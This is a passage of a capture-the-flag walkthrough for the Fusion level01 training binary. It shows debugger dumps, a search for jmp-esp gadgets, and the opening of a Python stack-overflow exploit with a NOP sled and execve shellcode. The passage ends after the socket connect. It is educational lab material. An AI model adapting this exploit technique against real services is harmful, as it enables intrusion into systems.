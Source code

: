 ```
(gdb) x/10x $esi
0xbfa65e44:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfa65e54:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfa65e64:     0x90909090      0x90909090
```

I immediately thought this was going to be the end of the challenge, since I could just 'jmp esi'.  However, when looking for that opcode, I couldn't find it: 

```
fusion@fusion:/opt/metasploit-framework$ ./msfelfscan -j esi /opt/fusion/bin/level01
[/opt/fusion/bin/level01]
```

Trying to find another way, I looked at the stack pointer, with a little extra surrounding it to see what's on each side: 

```
(gdb)  x/16x $esp-16
0xbfa65d80:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbfa65d90:     0xbfa65d00      0x00000020      0x00000004      0x00000000
0xbfa65da0:     0x001761e4      0xbfa65e30      0x20544547      0x41414141
0xbfa65db0:     0x41414141      0x41414141      0x41414141      0x41414141
```

So if our stack pointer is at 0xbfa65d90, the byte right after our return (0xdeadbeef), then we could return to the esp, and then redirect to the esi!  Let's test this by changing the return address to a 'jmp esp', and making the next byte a debug opcode to halt the program. 

Luckily this time we have a valid address for our register: 

```
fusion@fusion:/opt/metasploit-framework$ ./msfelfscan -j esp /opt/fusion/bin/level01
[/opt/fusion/bin/level01]
0x08049f4f jmp esp
```

So now our code looks like this: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0x08049f4f)
        esi = "\xCC"
        nops = "\x90"*100
        shellcode = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80")

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)
```